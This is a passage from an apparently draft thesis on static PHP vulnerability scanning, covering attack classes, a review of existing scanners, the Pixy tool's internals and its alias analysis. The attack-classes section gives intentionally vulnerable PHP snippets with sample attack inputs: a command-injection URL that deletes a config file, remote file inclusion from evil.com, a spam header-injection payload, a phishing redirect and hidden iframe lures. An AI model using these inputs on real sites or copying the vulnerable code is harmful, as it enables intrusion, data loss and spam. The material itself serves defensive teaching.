\end{textcode}


This would result in \texttt{/etc/passwd} (the file containing the login names of all system users) being displayed. (For this attack to work, the exact number of \texttt{../} has to match the directory structure of the server, and the file needs to be readable by the web server user.)


\subsection{OS Command Injection}
\label{os-command-injection}\index{OS command injection}
OS command injection is based on malicious input getting in while executing shell commands. Vulnerable code could look like this:

\begin{phpcode}
echo $createHeader();
if (isset($_GET['file']) && ($_GET['file'] != '')
  && is_file($_GET['file'])
) {
  exec('touch ' . $file)
}
echo $createFooter();
\end{phpcode}

An attacker then would use a URL like this:

\begin{textcode}
http://www.example.com/index.php?file=file\%26\%20rm\%20../../config.php
\end{textcode}

Calling this URL would delete the application's configuration file because the command that is encoded in the URL and that will be executed actually will be this:

\begin{textcode}
touch file & rm ../../config.php
\end{textcode}



\subsection{PHP File Inclusion, Remote Code Injection, Remote Command Execution}
\label{remote-command-injection}\index{PHP file inclusion}\index{remote code injection}\index{remote command execution}
PHP file inclusion (also known as \emph{remote code injection} or \emph{remote command execution}) is a PHP-specific vulnerability that occurs when a PHP script includes another script file and takes the path of the file to include from an untrusted source. (Depending on the configuration of the system, the path of the file to include may also be a remote URL, thus making this kind of vulnerability possible in the first place.)

This is an example of vulnerable code:

\begin{phpcode}
echo $createHeader();
if (isset($_GET['file']) && ($_GET['file'] != '')
  && is_file($_GET['file'])
) {
  include($file);
}
echo $createFooter();
\end{phpcode}

An attacker then could place some malicious code as a text file on some server (for example, at \texttt{http://evil.com/evil.txt}) and then use an URL like this to include that file:

\begin{textcode}
http://www.example.com/index.php?file=http://evil.com/evil.txt
\end{textcode}

As a result, this URL will include and execute the PHP contained in the remote file.


\subsection{E-Mail Header Injection}
\label{header-injection}\index{e-mail header injection}\index{mail header injection|see{e-mail header injection}}
E-Mail header injection is an attack that makes use of e-mail forms or other mail functionality that uses untrusted data in e-mail header fields (like \texttt{From:}, \texttt{To:}, \texttt{Cc:} or \texttt{Subject:}).

If header-relevant data in contact forms (like the sender's name or the subject) is not sanitized of linefeeds or carriage returns, it is possible to include additional header lines like bcc:, allowing the form to be misused for sending SPAM e-mails.

The code of a vulnerable e-mail form could look like this:

\begin{phpcode}
mail(
  'sales@example.com',
  $_POST['email_subject'],
  $_POST['email_body'],
  'From: ' . $_POST['email_address']
);
\end{phpcode}

An attacker then could forge a POST request (either using a HTML file that includes a form or via some program) and include a complete e-mail into the subject field (in the \texttt{email\_subject} POST data):

\begin{textcode}
Buy cheap Viagra!\r\nTo: some-spam-victim@example.org\r\n
  Bcc: other-victim@example.org, other-victim-2@example.org\r\n
  Buy cheap Viagra here: http://spamsite.example.com/\r\n
\end{textcode}

This would result in the following e-mail being send (headers and body):

\begin{textcode}
From: requester@example.com (sender e-mail addres from POST data)
Subject: Buy cheap Viagra!
To: some-spam-victim@example.org
Bcc: other-victim@example.org, other-victim-2@example.org
Buy cheap Viagra here: http://spamsite.example.com/

To: sales@example.com

(e-mail body from POST data)
\end{textcode}



\section{Problems not Detectable by Tainted Object Propagation Scanners}
The following problems do not rely on a direct connection between data sources\footnote{Please see section~\ref{tainting} on page~\pageref{tainting} for details on tainted object propagation, sources and sinks.} and sinks to be exploitable and thus cannot be found using a tainted object propagation scanner.

\myTable{
\begin{tabular}{|l|l|l|l|}
\hline
\bb{Vulnerability} & \bb{Top 25} & \bb{CWE ID} & \bb{Literature}\\
\hline
Information disclosure, & --- & CWE-200 & \cite{information-exposure-definition, typo3-security-guide}\\
information exposure & & & \\
\hline
Full path disclosure & --- & CWE-211 & \cite{kunz-esser}\\
\hline
Cross-site request forgery & \#12 & CWE-352 & \cite{csrf-definition, kachel, csrf-owasp, typo3-security-guide}\\
\hline
Open Redirect & \#22 & CWE-601 & \cite{open-redirect-google}\\
\hline
\end{tabular}
}{Some problems not detectable by tainted object propagation scanners}{other-vulnerabilities}


\subsection{Information Disclosure/Information Exposure}
\label{information-disclosure}\index{information disclosure}
Information disclosure (also known as \emph{information exposure}) emerges when an application discloses internal information like database user names or the executed SQL, e.g. in error messages or HTML comments.

This is an example of vulnerable code:

\begin{phpcode}
public function query($sql) {
  $queryResult = $this->link->query($sql);
  if ($queryResult === FALSE) {
    echo 'The following query has failed: ' . htmlspecialchars($query);
    die();
  }

  return $queryResult;
}
\end{phpcode}

The attacker then would need to find a bug in the web application that causes the query to fail. This would expose table names and possible column names, providing valuable information for other attacks like SQL injection (see page~\pageref{sql-injection}).

Apart from the code itself being vulnerable, having PHP configured with \texttt{display\_errors = On} makes the complete installation vulnerable as this causes any error messages from PHP to be output directly on the web page.


\subsection{Full Path Disclosure}
\label{path-disclosure}\index{full path disclosure}
\emph{Full path disclosure} vulnerabilities are a subset of the \emph{information disclosure} class of vulnerabilities. It refers to an application disclosing the full path of the application or file, for example in error messages.

This is an example of vulnerable code:

\begin{phpcode}
public function readFile($path) {
  $fileResource = fopen($path, 'r');
  if ($fileResource === FALSE) {
    echo 'Error opening file: ' . htmlspecialchars($path);
    die();
  }

  $fileContents = fread($fileResource, filesize($path));
  fclose($fileResource);

  return $fileContents;
}
\end{phpcode}

If the attacker finds a case of a file not being readable, this would expose the path to the file (and thus to the general location of the application's files).  This would provide the attacker with data helpful for a path traversal attack (page~\pageref{directory-traversal}).


\subsection{Cross-Site Request Forgery (CSRF/XSRF)}
\label{xscr,csrf}\index{cross-site request forgery}\index{CSRF|see{cross-site request forgery}}\index{XSRF|see{cross-site request forgery}}\index{session}
Cross-site request forgery (CSRF/XSRF) means that the current user session of a web application (e.g., in an open browser tab) is misused to execute certain actions on that site via malicious links, e.g. sending SPAM, changing the user's password or deleting their profile.

A common protection against an CSRF attack is requiring a token to be submitted together with the request. This token is unique to the current user session and usually not visible to the user. An attacker would need to retrieve the current session token, and merely submitting a fixed URL with a request would not work anymore. Facebook and TYPO3 use the token technique.~\cite{facebook-tokens, typo3-csrf}

The danger of CSRF is greatly increased if the site is susceptible to XSS since being able to execute JavaScript in the target web site's context would allow an attacker to retrieve the current token.


\subsection{Open Redirect}
\label{open-redirect}

A web application is susceptible to an open redirect attack if it uses untrusted data as the source for a redirect. This is an example of vulnerable code:

\begin{phpcode}
header('Location: ' . $_GET['redirect_url']);
\end{phpcode}

The URL of an attack could look like this:

\begin{textcode}
http://www.example.com/this/is/some/long/path.html
  ?some_parameter=.....................................................
  &redirect_url=http://phishing.example.com
\end{textcode}

This would allow an attacker to lure a user first onto a legit site (as the first part of the URL is a legit, albeit vulnerable site) and then redirect the user to some phishing site.

This attack is hard to scan for automatically because some redirects may be valid (and not vulnerable). To protect against this type of attack, white-listing is the recommended approach for validation. Validation, however, is not the same as sanitation, and currently cannot be scanned for using a tainted object propagation scanner.


\section{How to Lure Users onto Untrusted URLs}
Most of the attacks listed here base on a user opening a crafted URL in a browser (either directly in the URL bar or indirectly via a document that loads or includes another URL), containing malicious content. There are several techniques used to obfuscate the malicious nature of a URL:

\subsection{Image Tags}
\index{image tags}
An image tag that loads some URL could look like this:

\begin{htmlcode}
<img src="http://example.com/?foo=evilScript"
  width="0" height="0" style="display: none;" />
\end{htmlcode}

For this attack vector to work, the loaded script does not necessarily need to return real image data---empty data will work as well.


\subsection{Iframes}
\index{iframes}
An iframe tag that loads some URL as HTML could look like this:

\begin{htmlcode}
<iframe src="http://example.com/?foo=evilScript"
  width="0" height="0" style="display: none;">
</iframe>
\end{htmlcode}

\subsection{URL Shortening Services}
\index{URL shortening services}\index{bit.ly|see{URL shortening services}}\index{tinyurl|see{URL shortening services}}\index{goo.gl|see{URL shortening services}}
URL shortening service like bit.ly, tinyurl or goog.gl are particularly commonly used in Twitter messages. Those services redirect to a longer URL that is stored for the short link. Shortened URLs for \url{http://www.google.de/} would look like this:

\begin{textcode}
 http://bit.ly/4NuEFt
 http://tinyurl.com/yg7p6l7
 http://goo.gl/HKEkX
\end{textcode}

Without browser add-ons, it is not possible to see where a shortened (and thus also obfuscated) URL might lead.

\subsection{Encoded URL Parameters}
\index{encoded URL parameters}\index{URL encoding|see{encoded URL parameters}}
URL parameters may be encoded in several ways to make suspiciously-looking parts look less fishy. In the following example, \texttt{<script} is included in the URL in an encoded way.

\begin{textcode}
http://example.com/?foo=&#60;&#115;&#99;&#114;&#105;&#112;&#116;...
\end{textcode}

\emptydoublepage

\chapter{Static analysis}

\emptydoublepage

\chapter{Review of Existing Static PHP Vulnerability Scanners (READY FOR FEEDBACK, PROOFREAD)}
\label{scanners}

For this thesis, an existing scanner was needed that already worked reasonably well and could be modified (\ie it needed to be under an Open Source license like the Gnu Public License).

\section{Used Test Suite}
The author created a small test suite that was used to check the abilities of the various scanners. The test suite contains several instances of XSS and SQL injection in various forms:
\begin{itemize}
 \item source and sink within the same line
 \item source and sink on different lines within the same method
 \item source, sanitation and sink on different lines within the same method
 \item sanitation using PHP's built-in sanitation functions \texttt{mysql\_real\_escape\_string} and \texttt{intval}
 \item sanitation or source in other method in the same class
 \item sanitation or source in method of an instance of an included class
 \item sanitation or source in method in a static function of an included class
 \item sanitation or source in method in a static function of a class that is \emph{not} included, but expected to be autoloaded
\end{itemize}

\section{SWAAT}
\label{swaat}\index{SWAAT}
SWAAT~\cite{swaat} is closed-source freeware or open source (depending on whether the enclosed FAQ file or the web site should be considered the more current source), programmed in .NET. It solely relies on string matching. On the test suite, it listed practically all SQL queries as ``security sensitive functionality'', recommending ``manual source code review''. Effectively, it produced many false positive and did not find any of the existing XSS issues.

This project has been orphaned, \ie development and maintenance have ceased.

\section{CodeSecure Verifier}
\label{armorize}\index{Code Secure Verifier}\index{Armorize Code Secure Verifier}
Armorize CodeSecure Verifier~\cite{codesecure, verifier} is a closed-source, commercial source code scanner that is available in hardware and as software-as-a-service (SaaS). It provides data-flow and control-flow analysis, thus detecting most tainted-object-propagation vulnerabilities.

This scanner is based on the research published in \cite{huang-securing}.

\section{PHP-SAT}
\label{php-sat}\index{PHP-SAT}
PHP-SAT~\cite{php-sat} is an Open Source tool programmed in Stratego/XT~\cite{stratego} that uses intraprocedural data-flow analysis. It is based on PHP-front~\cite{php-front} and is able to work on code written in PHP~4 and 5. There is no stable release yet, and development has ceased in 2007.

This tool does not compile on the used testing environment Ubuntu, and has very scarce documentation.

\section{Pixy}
\label{pixy-comparison}\index{Pixy}
Pixy~\cite{pixy} is an Open Source tool programmed in Java using interprocedural data-flow analysis.

Pixy currently works only on PHP 4 code. After changing the test suite to PHP 4-only, Pixy found all vulnerabilities that did not use PHP~5 autoloading.

\section{Yasca---Yet Another Source Code Analyzer}
\label{yasca}\index{Yasca}
Yasca~\cite{yasca} is an Open Source tool programmed in PHP that combines its own pattern-matching search with the output of other scanners included as plug-ins, among them Pixy and PHPlint.

Using only its own scanning engine, Yasca was not able to find a single vulnerability.


\section{Deciding on a Scanner for the Thesis}

This is an overview of the desired properties for a scanner which could be used as a basis for the thesis:

\myTable{
\begin{tabular}{|l|l|l|l|l|}
\hline
 & \bb{Open Source} & \bb{runs at all} & \bb{good recall} & \bb{good precision} \\
\hline
SWAAT & (unclear) & \checkmark & --- & --- \\
\hline
Code Secure Verifier & --- & (\checkmark) & (not tested) & (not tested) \\
\hline
PHP-SAT & \checkmark & --- & (not tested) & (not tested) \\
\hline
Pixy & \checkmark & \checkmark & \checkmark & \checkmark   \\
\hline
Yasca & \checkmark & \checkmark & --- & (nothing found) \\
\hline
\end{tabular}
}{Reviewed PHP security scanners}{scanners-overview}

Pixy was the only scanner tested that had a clear Open Source license, worked in the first place, and had both a reasonable recall and precision. Thus the decision was to build on Pixy for this thesis.

\emptydoublepage

\chapter{The PHP Security Scanner Pixy}
\label{pixy}\index{Pixy}\index{PhpParser}
Pixy~\cite{pixy} was created in 2006/2007 as part of a dissertation by Nenad Jovanovic~\cite{pixy-dissertation}. It uses interprocedural data-flow analysis and includes the dedicated PhpParser tool~\cite{phpparser}. Pixy's approach is documented in~\cite{pixy-short, pixy-long, pixy-technical, pixy-dissertation}.

Pixy is able to recognize sources, sinks and sanitation functions specific for each vulnerability type. However, in its 2007 version, it only recognized simple functions, not method calls on objects or static function calls for a class.

Pixy could currently only scan one file at a time (including its dependencies), and it scans only functions that actually are executed. This means that it could not scan the code of a complete class if there was no caller.

Development of Pixy had ceased after 2007. However, one of the original authors of Pixy had agreed to hand over maintenance so Pixy can be officially continued.

\section{The Pixy Project on the Web}

The Pixy project (including the source code, wiki and issue tracker) currently resides on Github at \url{https://github.com/oliverklee/pixy}. The related PhpParser project is located at \url{https://github.com/oliverklee/phpparser}.\index{Github}

\section{Technical Details}

As shown in figure~\ref{fig:pixy-data-structures} on page~\pageref{fig:pixy-data-structures}, Pixy uses a several-steps approach between the raw source code and the final data flow analysis. It makes use of the (modified) external libraries JFlex and CUP (and a Lex syntax definition file for PHP) to create a PHP parse tree.\index{JFlex}\index{CUP}

\begin{figure}[htb]
 \begin{center}
   \includegraphics[scale=0.75]{images/Pixy-Arbeitsweise}
   \caption{From the PHP parse tree, Pixy generates a control-flow graph and P-TAC, using these for the dependency analysis and for the taint analysis.}
   \label{fig:pixy-data-structures}
 \end{center}
\end{figure}

\section{P-TAC as an Intermediate Representation in the Control-Flow Graph}
\label{p-tac}\index{P-TAC}

As an intermediate representation, Pixy uses a combination of a modified version of \emph{three-address code}\index{three-address code} (see section~\ref{tac}) called \emph{P-TAC} together with a control-flow graph (CFG).\index{control-flow grap} For addresses that contain data (variables, constants, literals), Pixy uses the general term \emph{place}.\index{place} Pixy represents \emph{places} in the class \texttt{AbstractPlace}.\index{AbstractPlace}

As described in~\cite{pixy-dissertation}, the main types of control-flow graph nodes are listed in table~\ref{table:p-tac} on page~\pageref{table:p-tac}.

\myTable{
\begin{tabular}{|l|p{5.5cm}|l|}
\hline
  \bb{CFG node} & \bb{description} & \bb{class} \\
\hline
 simple assignment  & $variable$ \texttt{=} $place$ & \texttt{AssignSimple} \\
\hline
 unary assignment  & $variable$ \texttt{=}  $operator\ place$ & \texttt{AssignUnary} \\
\hline
 binary assignment  & $variable$ \texttt{=} $place\ operator\ place$ & \texttt{AssignBinary} \\
\hline
 array assignment  & $variable$  \texttt{= array()} & \texttt{AssignArray} \\
\hline
 assignment by reference  & $variable$ \texttt{=\&} $variable$ & \texttt{AssignReference} \\
\hline
 unset & \texttt{unset($variable$)} & \texttt{Unset} \\
\hline
 global & \texttt{global} $variable$ & \texttt{Global} \\
\hline
 call preparation & a call node's predecessor & \texttt{CallPreparation} \\
\hline
 call & a function or method call & \texttt{Call} \\
\hline
 call return & a call node's successor & \texttt{CallReturn} \\
\hline
 basic block & a basic block containing other nodes & \texttt{BasicBlock} \\
\hline
 PHP function call & a call of one of PHP's built-in functions & \texttt{CallBuiltinFunction} \\
\hline
 unknown function call & a function call that cannot be resolved during analysis & \texttt{CallUnknownFunction} \\
\hline
 entry node & the entry node of the control-flow graph & \texttt{CfgEntry} \\
\hline
 exit node & an exit node of the control-flow graph & \texttt{CfgExit} \\
\hline
 constant definition & \texttt{define($key, value$)} & \texttt{Define} \\
\hline
 echo call & \texttt{echo $variable$} & \texttt{Echo} \\
\hline
 if & \texttt{if($true$|$false$) goto $target$} & \texttt{If} \\
\hline
 file inclusion & \texttt{include $variable$} & \texttt{Include} \\
\hline
\end{tabular}
}{The main types of control-flow graph nodes in P-TAC as used by Pixy. The class names are within the package \texttt{pixy.conversion.cfgnodes}.}{table:p-tac}

In Pixy, the class \texttt{TacConverter} is responsible for converting the PHP parse tree to P-TAC and a control-flow graph.\index{tacconverter}\label{tacconverter}

\emptydoublepage

\chapter{PHP5.4 (WORK IN PROGRESS)}
\label{sec:php54}\index{PHP version 5.4}

\paragraph{Note:} This section will be revamped as a ``changes in different PHP versions'' section in the chapter on PHP.

Pixy in its current version is only able to deal with PHP 4 code. However, in the meantime PHP has progressed to version 5.4. This version has brought some major changes over 4.x that affects static code analysis:

\myTable{
\begin{tabular}{|l|l|}
  \hline
  \bb{New language feature} & \bb{Effect on static code analysis} \\
  \hline
  new keywords & language definition for the lexer/parser\\
  \hline
  constants & the ``place'' abstraction for variables\\
    & (three-address code \emph{P-TAC})\\
  \hline
  default pass-by-reference & alias analysis\\
  \hline
  type hinting & lexer/parser, type inference\\
  \hline
  visibility keywords & lexer/parser,\\
    \emph{private, protected, public} & control-flow analysis, data-flow analysis\\
  \hline
  autoloader & loading of class files\\
  \hline
  namespaces & lexer/parser, loading of class files\\
  \hline
  late static binding & lexer/parser, control-flow graph\\
  \hline
  anonymous functions (from PHP 5.4)& lexer/parser, control-flow analysis\\
  \hline
\end{tabular}
}{Major changes in PHP 5.4 over 4.x}{php54table}

Note: The new visibility keywords affect both the control-flow analysis as well as the data-flow analysis as they influence which methods can be reached from a class at all and which fields are visible.

The following example demonstrates this issue:

\begin{phpcode}
class A {
  /**
   * @var string
   */
  public $publicField = 'public ... ';
  /**
   * @var string
   */
  protected $protectedField = 'protected ... ';
  /**
   * @var string
   */
  private $privateField = 'private ...';
}

class B extends A {
  /**
   * @return string
   */
  public function getFields() {
    return $this->publicField . $this->protectedField .
      $this->privateField;
  }
}

$b = new B();
echo $b->getFields;
\end{phpcode}

This example will echo \texttt{public ... protected ... } as \texttt{\$this->privateField} accesses an (undeclared) field \texttt{B::privateField} (which will have a default value of \texttt{NULL}, which will be automatically cast to an empty string) instead of the existing, but inaccessible \texttt{A::privateField}.

\emptydoublepage

\chapter{Alias Analysis (party READY FOR FEEDBACK, PRROFREAD, partly TODO)}

When performing static code analysis, a good alias analysis is helpful as it can both increase recall and precision. A good recall is important as it will allow Pixy to find more vulnerabilities. A good recall is important to reduce noise, thus making the results more meaningful for the developers: If there are too many meaningless warnings, developers just tend to ignore them---or stop using the tool.~\cite{understanding-value}

For understanding the intricacies of alias analysis for PHP, it is important to first have a firm grip on the way references work in PHP (which is quite different from the way aliases work e.\,g., in C or Java). Thus, a big part of the exiting work on alias analysis does not directly apply to PHP.~\cite[page~24]{pixy} Subsection~\ref{sec:references} on page~\pageref{sec:references} provides more information on this.

\section{Alias Analysis in Pixy (READY FOR FEEDBACK, PROOFREAD)}

For its alias analysis, Pixy uses a modified version of the points-to-analysis described by Khedker et.\,al~\cite[page 119ff]{data-flow-analysis}, including the concept of ``must'' and ``may'' aliases.

\paragraph{Must-aliases} are relationships between variables that are aliases to the same ZVAL independent of the actual executed program path.
\index{must-alias}\index{alias!must-|see{must-alias}}

\paragraph{May-aliases} are relationships between variables that are aliases only for some executed program paths.
\index{may-alias}\index{alias!may-|see{may-alias}}

This separation helps in cases where two variables \texttt{\$a} and \texttt{\$b} are tainted and \texttt{\$a} gets sanitized. If \texttt{\$a} and \texttt{\$b} are must-aliases, \texttt{\$b} can safely be marked to be sanitized as well. However, if both variables are may-aliases, the scanner should make a conservative decision and regard \texttt{\$b} as still to be tainted.

This concept comes into use both for intraprocedural as well as interprocedural alias analysis.


\subsection{Intraprocedural Alias Analysis}
\label{sec:intraprocedural-alias-analysis}\index{alias analysis!intraprocedural}\index{intraprocedural alias analysis|see{alias analysis, intraprocedural}}

This section describes how Pixy conducts alias analysis within a function or method (as explained in~\cite{pixy}).

Pixy keeps record for all must-aliases and may-aliases for each line of program code. The must-aliases are represented as unordered and disjoint sets of variables that are certain to be references to the same ZVAL at a certain point at the program. May-aliases are represented the same way. Let's have a look at an example.

Note: In these examples, the sets of must-aliases and may-aliases always refer to point of execution after the last code line listed above.

At the beginning of a function or method, the sets of may-aliases and must-aliases are empty:

$mustAliases = \{\}, mayAliases = \{\}$

When a reference is created, the pair of both variables is added to the must-aliases:

\begin{phpcode}
$a = &$b;
\end{phpcode}
$mustAliases = \{(a, b)\}, mayAliases = \{\}$


If there is a branch condition, the aliases set within the branch still are considered to be must-aliases, but \emph{only within that particular branch}.

\begin{phpcode}
$a = &$b;
if (...) {
  $c = &$d;
\end{phpcode}
$mustAliases = \{(a, b), (c, d)\}, mayAliases = \{\}$

\begin{phpcode}
$a = &$b;
if (...) {
  $c = &$d;
  $e = &$d;
\end{phpcode}
$mustAliases = \{(a, b), (c, d, e)\}, mayAliases = \{\}$

Now, after the branch, the scanner needs to change the must-aliases that have been created during the branch to may-aliases---for it is not safe to assume that the branch will be executed in each and every case:

\begin{phpcode}
$a = &$b;
if (...) {
  $c = &$d;
  $e = &$d;
}
\end{phpcode}
$mustAliases = \{(a, b)\}, mayAliases = \{(c, d, e\}$

To ease processing, the alias tuples with more than two elements are split into separate pairs:

$mustAliases = \{(a, b)\}, mayAliases = \{(c, d), (c, e), (d, e)\}$


\subsection{Interprocedural Alias Analysis}
\label{sec:interprocedural-alias-analysis}\index{alias analysis!interprocedural}\index{interprocedural alias analysis|see{alias analysis, interprocedural}}

This section describes how Pixy conducts alias analysis between functions or methods (as explained in~\cite{pixy}).

Generally, there are two possible scopes for variables in PHP: local variables and global variables. (Please see section \ref{sec:variable-scope} on page \pageref{sec:variable-scope} for details.)

Hence, at the point of a function call, the alias analysis needs to track both alias information that gets propagated into the function, and alias information that is valid when the control flow returns from the function.

Thus, from the called function's (the callee's) point of view, the following information is important when the function gets called:

\begin{itemize}
  \item aliases between global variables
  \item aliases between the method parameters
  \item aliases between global variables and the method parameters
\end{itemize}

After control flow has been returned from a method, the following alias information needs to be obtained (or updated):

\begin{itemize}
  \item aliases between global variables
  \item aliases between global variables and the caller's local variables
\end{itemize}


\subsubsection{Aliases Between Global Variables}
\label{sec:aliases-globals}\index{aliases between global variables}\index{global variables}

For tracking global variables, the notation of must-aliases and may-aliases is changed by adding a method name prefix to the variable name. For the global symbol table, Pixy uses a ``special'' function \texttt{m} (for \texttt{main}).

Let's have an example:

At the beginning, there are no must-aliases or may-aliases. This information (particularly, the information on the global aliases) then gets propagated into the function:

\begin{phpcode}
foo();

function foo() {
\end{phpcode}

$mustAliases = \{\}, mayAliases = \{\}$

\begin{phpcode}
foo();

function foo() {
  $a1 = 42;
  $a2 = &$a1;

  $GLOBALS['x2'] = &$GLOBALS['x1'];
\end{phpcode}

$mustAliases = \{(foo.a1, foo.a2), (m.x1, m.x2)\}, mayAliases = \{\}$

At this point of the control flow within the function, the local variables \texttt{\$a1} and \texttt{\$a2} are must-aliases to each other---as are the global variables \texttt{\$x1} and \texttt{\$x2}. This is just applying the intraprocedural techniques described in section~\ref{sec:intraprocedural-alias-analysis}.

Now, when the function \texttt{foo} calls another function \texttt{bar}, only alias information on global variables is propagated into \texttt{bar} (as there are not parameters):

\begin{phpcode}
foo();

function foo() {
  $a1 = 42;
  $a2 = &$a1;

  $GLOBALS['x2'] = &$GLOBALS['x1'];
  bar();
  ...
}

function bar() {
\end{phpcode}

$mustAliases = \{(m.x1, m.x2)\}, mayAliases = \{\}$

If \texttt{bar} adds aliases on global variables, these get added to the must-aliases (as seen from the perspective of still within \texttt{bar}):

\begin{phpcode}
foo();

function foo() {
  $a1 = 42;
  $a2 = &$a1;

  $GLOBALS['x2'] = &$GLOBALS['x1'];
  bar();
  ...
}

function bar() {
  $GLOBALS['x3'] = &$GLOBALS['x1'];
\end{phpcode}

$mustAliases = \{(m.x1, m.x2, m.x3)\}, mayAliases = \{\}$

After the control flow is back from \texttt{bar} in \texttt{foo}, the changed information on global aliases is available within \texttt{foo} as well (in addition to the alias information on the local variables):

\begin{phpcode}
foo();

function foo() {
  $a1 = 42;
  $a2 = &$a1;

  $GLOBALS['x2'] = &$GLOBALS['x1'];
  bar();
\end{phpcode}

$mustAliases = \{(foo.a1, foo.a2), (m.x1, m.x2, m.x3)\}, mayAliases = \{\}$


\subsubsection{Aliases Between Function Parameters Passed by Reference}

By default, PHP passes function parameters by value. However, it also is possible to have function parameters passed by referenced by using an ampersand in the function declaration. These cases are relevant for the alias analysis.

When the callee has two parameters that are passed by reference, and the caller passes two variables that are aliases, the alias analysis needs to propagate this information into the callee.

Let's have a look an an example:

\begin{phpcode}
function foo() {
  $a1 = 42;
  $a2 = &$a1;

  bar($a1, $a2);
  ...
}

function bar(&$b1, &$b2) {
\end{phpcode}

At the point where \texttt{bar} is called, the alias information looks like this in the \texttt{foo} function:

$mustAliases = \{(foo.a1, foo.a2)\}, mayAliases = \{\}$

Within the \texttt{bar} function, the propagated alias information thus consists of the parameters as must-aliases:

$mustAliases = \{(bar.b1, bar.b2)\}, mayAliases = \{\}$


If the parameters that are passed are may-aliases, they correspondingly get propagated as may-aliases:

\begin{phpcode}
function foo() {
  $a1 = 42;
  $a2 = 8;

  if (...) {
    $a2 = &$a1;
  }

  bar($a1, $a2);
  ...
}

function bar(&$b1, &$b2) {
\end{phpcode}

At the point where \texttt{bar} is called, the alias information looks like this in the \texttt{foo} function:

$mustAliases = \{\}, mayAliases = \{(foo.a1, foo.a2)\}$

And this is the alias information at the beginning of the \texttt{bar} function:

$mustAliases = \{\}, mayAliases = \{(bar.b1, bar.b2)\}$



\subsubsection{Aliases Between Global Variables and Parameters Passed by Reference}

As far as global variables are concerned, there are basically three cases to be considered for pass-by-reference parameters:

\begin{itemize}
  \item The paramater is a global variable (and thus also a trivial must-alias of a global variable).
  \item The parameter is a must-alias of a global variable.
  \item The parameter is a may-alias of a global variable.
\end{itemize}

In all three cases, the parameter gets propagated as the corresponding type of must-alias or may-alias to the global variable into the function:

\begin{phpcode}
function foo() {
  $a1 = $GLOBALS['a1'];
  $a2 = 8;

  if (...) {
    $a2 = $GLOBALS['a2'];
  }

  bar($a1, $a2, $GLOBALS['a3']);
  ...
}

function bar(&$b1, &$b2, &$b3) {
\end{phpcode}

At the point where \texttt{bar} is called, the alias information looks like this in the \texttt{foo} function (again using the \texttt{m} function as a fake scope for global variables):

$mustAliases = \{(foo.a1, m.a1)\}, mayAliases = \{(foo.a2, m.a2)\}$

And this is the alias information at the beginning of the \texttt{bar} function:

$mustAliases = \{(bar.b1, m.a1), (bar.b3, m.a3)\}, mayAliases = \{(bar.b2, m.a2)\}$




\section{Alias Analysis and Tainted Object Propagation Scanning (READY FOR FEEDBACK, PROOFREAD)}

When a tainted object propagation scanner (see section~\ref{tainted-object-propagation} on page~\pageref{tainted-object-propagation}) tracks the taint state of variables, alias information is very important both for increasing recall (\ie reducing the number of false negatives) as well as for increasing precision (\ie reducing the number of false positives).

For tainted object propagation analysis, variables can have one of two possible states: tainted or untainted. A variable gets marked as tainted when it is assigned a values that originates from a sink---be it directly, or via another tainted variable. A variable gets marked as untainted either when it is assigned a safe value (\eg a literal or an untainted variable), or when it gets sanitized.

The impact of must-aliases on tainting is very simple: When a variable is marked as tainted, all its must-aliases get marked as tainted as well. The same goes for the variable being marked as untainted.

Concerning tainting of may-aliases, there are generally two possible approaches: The conservative approach would regard a variable as still tainted if there is a chance that it may be tainted. This increases recall, but might also decrease precision. The more optimistic approach would mark a variable as untainted if it might possibly be untainted. Obviously, for a security scanner that should point out possible vulnerabilities, the conservative approach is the more appropriate one.\index{conservative approach to tainting}\index{optimistic approach to tainting}

Let's have a look at the two relevant cases here: When a variable gets tainted---regardless of whether it already has been tainted---, all must-aliases and---assuming the conservative approach---all may-aliases get tainted as well. When a variable gets untainted (also regardless of its former state), all must-aliases can be marked as untainted, but all may-aliases should keep their former taint state (using the conservative approach again). Table~\ref{table:alias-tainting-conservative} shows this at a glance. Just for the sake of completeness, table \ref{table:alias-tainting-optimistic} shows a---purely fictional---optimistic approach.

\myTable{
\begin{tabular}{|l|l|l|}
\hline
 \bb{new taint state of the variable} & \bb{must-aliases} & \bb{may-aliases} \\
\hline
 tainted & tainted & tainted \\
\hline
 untainted & untainted & (unchanged) \\
\hline
\end{tabular}
}{The effects of tainting and untainting on must-aliases and may-aliases, using a realistic \bb{conservative} approach.}{table:alias-tainting-conservative}

\myTable{
\begin{tabular}{|l|l|l|}
\hline
 \bb{new taint state of the variable} & \bb{must-aliases} & \bb{may-aliases} \\
\hline
 tainted & tainted & (unchanged) \\
\hline
 untainted & untainted & untainted \\
\hline
\end{tabular}
}{The effects of tainting and untainting on must-aliases and may-aliases, using a fictional \bb{optimistic} approach.}{table:alias-tainting-optimistic}




\section{Alias Analysis for the Default Pass-by-Reference in PHP~5 (TODO)}

\emptydoublepage

\chapter{Implementation Details and Problems Encountered (TODO)}

\emptydoublepage

\chapter{Experimental Evaluation of the Modified Version of Pixy (WORK IN PROGRESS)}

In this section, we will look at the modified version of Pixy both with a code quality perspective as well as a functional perspective.

The original version of Pixy can be found at~\cite{pixy}, and the modified version of Pixy and the related PhpParser project are hosted at Github at \url{https://github.com/oliverklee/pixy} and at \url{https://github.com/oliverklee/phpparser}.\index{Github}

\section{Code Quality}
\label{code-quality}
\index{code quality}
One of the aims of the thesis is to make Pixy a tool that is and will continue to be useful for other developers, both for using it and for contributing to the project. This includes that the Pixy's code is well-tested, well-readable and of general high quality. For measuring improvements in code quality, the author has decided to use three numbers that are relatively easy to measure:

\begin{itemize}
  \item the number of warnings and errors issued by javac 1.7 when run with the \texttt{-Xlint} option
  \item the number of warnings and errors issued by the PMD\footnote{``Project Mess Detector'', but there exists several explanations of what this acronym means~\cite{pmd-meaning}.}~\cite{pmd} source code analyzer for Java
    \index{PMD}
    \index{Project Mess Detector \see{PMD}}
  \item the number of JUnit unit tests and the number of failures and errors
  \index{unit test}
  \index{JUnit \see{unit tests}}
\end{itemize}

The aim of this thesis is to get the javac lint and PMD warnings as close to zero as possible and to get all unit tests to pass. In addition, all changes and new features should be covered with unit tests.

This only applies to the Pixy project as most of the code of the related PhpParser is generated, \ie the author does not have much direct influence on the quality of that code.

\subsection{Java Lint Warnings}

Before the author made any changes, javac lint (version 1.7.0\_13) issued 688 warnings for Pixy (many of which may be due to Pixy originally being developed for Java 1.5).

\subsection{PMD}

The author chose a subset of the available Java-related PMD rule sets that fit to the scope of the Pixy project (\eg a rule set for Android does not make sense for this non-Android project). Other rule sets were skipped as they provided too many false positives for this project (please see table~\ref{table:pmd-skipped} on page~\pageref{table:pmd-skipped} for a list).

